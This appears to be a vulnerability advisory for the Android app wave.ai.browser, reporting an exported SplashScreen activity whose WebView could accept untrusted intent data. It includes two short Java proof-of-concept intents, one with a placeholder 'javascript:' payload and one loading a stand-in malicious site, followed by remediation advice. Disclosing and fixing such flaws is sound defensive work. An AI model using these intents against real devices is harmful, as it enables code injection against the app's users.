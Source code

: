 ## Vulnerability Report: Arbitrary Code Execution via Exported `SplashScreen` Activity in `wave.ai.browser`

### Overview:

The `wave.ai.browser` application contains a manifest entry that exports the `wave.ai.browser.ui.splash.SplashScreen` activity. This exported activity permits unauthorized applications to start it with arbitrary intent data & can lead to arbitrary code execution within the context of the `wave.ai.browser` application.

### Detailed Description:

An exported activity is one that can be invoked by other applications on the device. If not properly protected or if it implicitly trusts the data it receives, this can pose a security risk.

Given the manifest entry:
```xml
<activity android:theme="@style/Theme.App.Splash" 
          android:name="wave.ai.browser.ui.splash.SplashScreen" 
          android:exported="true" 
          android:launchMode="singleTop" 
          android:screenOrientation="portrait">
</activity>
```

The `wave.ai.browser.ui.splash.SplashScreen` activity is exported, meaning any third-party application can start this activity.

This activity uses a WebView component to display web content and doesn't adequately validate or sanitize the URI or extra data passed in the intent. 

Therefore a malicious app could craft an intent to load a website or execute arbitrary JavaScript within that WebView.

### POC:


![wave_ai_uri](https://github.com/actuator/wave.ai.browser/assets/78701239/cc22e955-a306-440c-8b92-00fdfc705717)




#### Malicious Intent Creation:
In a malicious app:
```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("javascript:malicious_code_here"));
startActivity(intent);
```


If the `SplashScreen` activity in `wave.ai.browser` loads URIs in this manner without checking or sanitizing them, the malicious JavaScript code would execute within the context of the `wave.ai.browser` app or load an arbitrary website.

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("http://maliciouswebsitetest.com/"));
startActivity(intent);
```

### CWE References:

CWE-94: Improper Control of Generation of Code ('Code Injection'): The vulnerability can potentially allow attackers to inject arbitrary code.

### Recommendations:

1. **Limit the Export of Activities**: Unless there's a compelling reason, avoid exporting activities. If you must export an activity, use intent filters and permissions to restrict who can start the activity.
2. **Validate and Sanitize Intent Data**: Always validate and sanitize data obtained from intents before use. Never trust data from external sources.
3. **Secure WebView Settings**: If using WebView, disable JavaScript unless necessary. Always sanitize and validate URLs and data passed to the WebView.

### Conclusion:

The manifest configuration of `wave.ai.browser` exposes it to potential arbitrary code execution risks.
